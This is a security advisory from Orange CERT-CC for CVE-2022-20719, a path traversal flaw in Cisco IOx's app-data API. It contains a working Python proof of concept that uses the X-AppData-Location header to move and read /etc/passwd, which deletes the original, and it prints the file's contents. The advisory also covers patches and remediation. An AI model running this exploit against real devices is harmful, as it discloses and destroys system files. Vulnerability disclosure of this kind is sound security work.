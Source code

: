 
##
#
https://github.com/orangecertcc/security-research/security/advisories/GHSA-8v5w-4fhm-gqxj
#
##

Cisco IOx - Application Hosting Environment Parameter Injection Vulnerability (CVE-2022-20719)
Moderate	orange-cert-cc published GHSA-8v5w-4fhm-gqxj on Apr 19, 2022
Package
IOx (Cisco)
Affected versions
17.3.3
Patched versions
17.3(5)
Description
Overview
Cisco provides an API for IOX. This API provide a way to manage apps datas.

Impact
An authenticated user can leak and remove sensitive file on Linux host system.

Details
The Cisco IOX API provide iox/api/v2/hosting/apps/{app_id}/appdata/ rest interface.
With POST request it is possible to upload a file on app data directory.
Alternatively it is also possible to move an existing file with X-AppData-Location header.
There is nor control neither restriction on this parameter.
It possible to set an absolute path pointing to an other file on the system.

Warning! The source file will be removed! *
Tested versions
This vulnerability have been tested on Cisco ISR4200.

NR-4221-3#show version
Cisco IOS XE Software, Version 17.03.02
Cisco IOS Software [Amsterdam], ISR Software (X86_64_LINUX_IOSD-UNIVERSALK9_IAS-M), Version 17.3.2, RELEASE SOFTWARE (fc3)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2020 by Cisco Systems, Inc.
Compiled Sat 31-Oct-20 13:21 by mcpre
Proof of Concept
Warning! This exploit remove the /etc/passwd file! *
Replace the "X-AppData-Location" value if you want a less destructive test*
Prerequisite: enable iox and activate an app (guestshell for instance)
# show run
iox
...
app-hosting appid guestshell
 app-vnic management guest-interface 0
...



Then with by requesting the API it is possible to get any file. Here is a small script proving the bug.
```
import requests
import base64

# Please replace it with valid login and password
pwd=base64.b64encode('admin:admin')
headers = {'Authorization': 'Basic '+pwd}
r=requests.post('http://192.168.1.39/iox/api/v2/hosting/tokenservice', headers=headers)

print(r.status_code)
token=r.json()['token']['id']

headers = {'X-AppData-Location': '../../../../../../../etc/passwd',
           'X-Token-Id': token
}

# Warning /etc/passwd will be removed
r=requests.post('http://192.168.1.39/iox/api/v2/hosting/apps/guestshell/appdata/f', headers=headers)
print(r.status_code)

headers = {'X-Token-Id': token}
r=requests.get('http://192.168.1.39/iox/api/v2/hosting/apps/guestshell/appdata/f', headers=headers)
print(r.text)
```

The result:

```
root:*:0:0:root:/root:/bin/bash
binos:x:85:85:binos administrative user:/usr/binos/conf:/usr/binos/conf/bshell.sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
messagebus:x:998:997::/var/lib/dbus:/bin/false
avahi:x:997:996::/var/run/avahi-daemon:/bin/false
avahi-autoipd:x:996:995:Avahi autoip daemon:/var/run/avahi-autoipd:/bin/false
guestshell:!:1000:1000::/home/guestshell:
dockeruser:*:1000000:65536:Dockeruser:/:/sbin/nologin
```


Solution
Recommandations sent to PSIRT
We suggest to:

apply user input validation
do a determinist path calculation
Security patch
Upgrade to patched version (see above).

Workaround
There are no workarounds that address this vulnerability.

References
https://nvd.nist.gov/vuln/detail/CVE-2022-20719
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-iox-yuXQ6hFj

Credits
Orange CERT-CC
Cyrille CHATRAS at Orange group

Timeline
Date reported: June 06, 2021
Date fixed: April 13, 2022
